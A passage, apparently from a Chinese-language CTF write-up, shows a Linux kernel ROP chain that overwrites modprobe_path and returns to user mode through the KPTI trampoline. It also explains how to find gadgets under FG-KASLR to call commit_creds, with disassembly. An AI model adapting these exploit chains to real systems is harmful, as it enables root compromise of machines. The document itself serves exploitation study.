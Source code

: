 ```c

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;

    // Write data to modprobe_path
    rop[i++] = pop_rax_ret;
    rop[i++] = 0x782f706d742f; // tmp/x
    rop[i++] = pop_rbx_r12_r13_rbp_ret;
    rop[i++] = modprobe_path;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = write_rbx_rax_pop_rbx_rbp_ret;
    rop[i++] = 0;
    rop[i++] = 0;

    rop[i++] = kpti_trampoline;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = (size_t )get_flag;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );

}
```

#### 常规ROP

使用纯ROP方法最困难的地方就是找 gadget 了， 因为 FG-KASLR 打乱了几乎每个函数的地址，因此可以用到的gadget很少，但是 ksymtab 表不会变，我们可以泄露出 ksymtab 的内容来推出 commit_creds prepare_kernel_cred 的真实地址和 ，这样困难就变成了将 rax 转移到 rdi，所以只能将调用过程分解，分成两次来 ROP

另外在找 gadget 的时候，这里的 5f 可以错出一个 pop rdi 出来，真滴神奇

```c
ffffffff8100389f:	41 5f                	pop    r15
ffffffff810038a1:	5d                   	pop    rbp
ffffffff810038a2:	c3                   	ret
```

所以 0x38a0 的 gadget 就是 pop rdi ;pop rbp; ret ，也可以直接用 0x4854，但没上一个这么干净

```c
ffffffff81004854:	5f                   	pop    rdi
ffffffff81004855:	5e                   	pop    rsi
ffffffff81004856:	5a                   	pop    rdx
ffffffff81004857:	59                   	pop    rcx
ffffffff81004858:	5d                   	pop    rbp
ffffffff81004859:	c3                   	ret    
```
